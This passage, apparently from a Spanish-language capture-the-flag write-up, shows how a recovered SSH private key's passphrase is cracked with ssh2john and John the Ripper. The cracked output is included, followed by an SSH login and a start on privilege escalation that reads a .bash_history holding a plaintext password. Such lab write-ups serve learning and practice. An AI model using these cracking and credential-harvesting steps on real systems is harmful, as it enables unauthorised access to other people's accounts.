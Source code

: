 ```
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

Para sacar la contraseña que te pedira de la clave privada haremos lo siguiente...

```shell
ssh2john id_rsa > <FILE>
```

```shell
john --wordlist=<WORDLIST> <FILE>
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetness        (id_rsa)     
1g 0:00:00:24 DONE (2024-05-13 15:24) 0.04111g/s 39.47p/s 39.47c/s 39.47C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
```

Una vez sepamos la contraseña nos conectamos al `ssh` con la id\_rsa...

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa saad@<IP>
```

### Escalada de privilegios

Si miramos lo que contiene `.bash_history` veremos lo siguiente...

```
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
pwd
ls -al
sudo -l
ls -al
pwd
whoami
mysql -u root -p
netstat -antlp
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql
ls -al
```